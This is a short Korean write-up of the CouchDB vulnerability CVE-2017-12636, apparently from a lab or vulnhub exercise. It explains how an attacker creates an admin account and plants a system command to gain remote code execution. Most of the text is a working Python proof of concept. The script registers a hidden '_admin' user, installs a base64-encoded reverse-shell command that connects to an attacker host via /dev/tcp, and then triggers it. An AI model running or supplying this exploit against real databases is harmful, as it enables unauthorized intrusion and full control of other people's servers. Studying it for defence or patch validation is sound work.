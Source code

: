 
#### 취약점 설명

관리자 권한 계정 생성 - `CVE-2017-12636`
관리자 권한을 이용하여 데이터베이스 내에 시스템 명령어를 추가하여 원격 명령어 실행을 유도할 수 있는 취약점이다.

원격 명령어 실행을 유도하기 위해 데이터베이스 내에 임의의 명령어를 추가하는 요청을 보낸 후, 유도한다.

결국 공격자는 원격으로 공격자 서버로 리버스 쉘을 받아와 임의의 명령어 실행 및 초기 침투가 가능하다.

- PoC
```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://10.0.4.22:5984'
command = rb"""sh -i >& /dev/tcp/10.0.4.25/5454 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:vulnhub', data='''{
  "type": "user",
  "name": "vulnhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulnhub"
}''')

session.auth = HTTPBasicAuth('vulnhub', 'vulnhub')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/vulnhub')
session.put(target + '/vulnhub/test', data='{"_id": "vulnhubtest"}')

if version == 1:
    session.post(target + '/vulnhub/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/vulnhub/_design/test', data='{"_id":"_design/test","views":{"vulnhub":{"map":""} },"language":"cmd"}')
```
